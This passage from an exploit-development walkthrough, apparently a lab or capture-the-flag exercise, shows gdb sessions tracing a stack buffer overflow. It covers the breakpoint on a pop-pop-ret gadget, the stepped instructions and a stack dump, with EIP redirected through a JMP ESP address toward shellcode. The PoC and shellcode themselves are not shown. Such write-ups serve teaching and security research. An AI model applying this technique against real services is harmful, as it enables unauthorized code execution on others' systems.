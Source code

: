 I restarted the service, attached gdb to it, and set a breakpoint at 0x08048a32.

```text
root@kali:~# gdb -q -p 4817
Attaching to process 4817
Reading symbols from /root/bar...(no debugging symbols found)...done.
Reading symbols from /lib/i386-linux-gnu/libc.so.6...(no debugging symbols found)...done.
Loaded symbols for /lib/i386-linux-gnu/libc.so.6
Reading symbols from /lib/ld-linux.so.2...(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
0xb76acafc in accept () from /lib/i386-linux-gnu/libc.so.6
(gdb) break *0x08048a32
Breakpoint 1 at 0x8048a32
(gdb) c
Continuing.
```

I executed the PoC which in turn overwrote EIP and redirected execution to 0x08048a32. At this point gdb paused. Examining the next 6 instructions in EIP showed I was in the right location. 

```
Breakpoint 1, 0x08048a32 in __libc_csu_init ()
(gdb) x/6i $eip
=> 0x8048a32 <__libc_csu_init+82>:	add    $0x1c,%esp
   0x8048a35 <__libc_csu_init+85>:	pop    %ebx
   0x8048a36 <__libc_csu_init+86>:	pop    %esi
   0x8048a37 <__libc_csu_init+87>:	pop    %edi
   0x8048a38 <__libc_csu_init+88>:	pop    %ebp
   0x8048a39 <__libc_csu_init+89>:	ret  
```

The first five instructions would clear the top of the stack, so I stepped through them. Before executing the RET, I looked at the stack:

```
(gdb) ni
0x08048a35 in __libc_csu_init ()
(gdb) 
0x08048a36 in __libc_csu_init ()
(gdb) 
0x08048a37 in __libc_csu_init ()
(gdb) 
0x08048a38 in __libc_csu_init ()
(gdb) 
0x08048a39 in __libc_csu_init ()
(gdb) x/20wx $esp
0xbfc44d9c:	0x08048697	0x42424242	0x42424242	0x42424242
0xbfc44dac:	0x42424242	0x42424242	0x42424242	0x42424242
0xbfc44dbc:	0x42424242	0x42424242	0x42424242	0x42424242
0xbfc44dcc:	0x42424242	0x42424242	0x42424242	0x42424242
0xbfc44ddc:	0x42424242	0x42424242	0x42424242	0x42424242
```

The top of the stack contained the address 0x08048697, which pointed to a JMP ESP instruction. After that executed, EIP would be pointing to the top of the stack right at the start of my shellcode. 
